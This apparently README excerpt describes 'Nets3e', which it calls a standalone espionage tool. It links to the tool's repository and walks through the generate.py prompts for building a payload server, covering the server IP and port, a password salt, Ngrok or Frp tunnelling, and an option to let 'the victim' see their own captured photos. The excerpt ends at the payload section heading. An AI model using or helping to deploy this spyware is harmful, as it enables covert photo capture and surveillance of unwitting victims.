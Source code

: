 Nets3e itself has another independently constructed pseudo-protocol encryption, which means that Nets3e can also be regarded as a standalone espionage tool.

You can download the standalone tool (non-plugin version) from the repository at https://github.com/MartinxMax/Nets3e.

### Nets3e Server

`$ python3 generate.py`
`[Device Type (Number)]>6`
`[+] Nets3e Server IP >192.168.8.106`
`[+] Nets3e Server Port >10099`
`[+] Nets3e Salt(password) >Maptnh`
`[+] Frp or Ngrok Server IP(default blank) >`
`[+] Frp or Ngrok Server Port(default blank)>`
`[+] Enable DingTalk Push?[./plugin/Nets3e/DingTalk.conf](y/n) >n`
`[+] Let the victim see their own photos?(y/n) >y`
`[+] What is the version of python you want to execute?([0]python [1]python3) >1`
`[+] What you need to do?([0]only generate payload [1]only start server [2]generate and start server [3]exit)>1`

![alt text](./pic/Nets3e_Server.png)


### Nets3e Payload
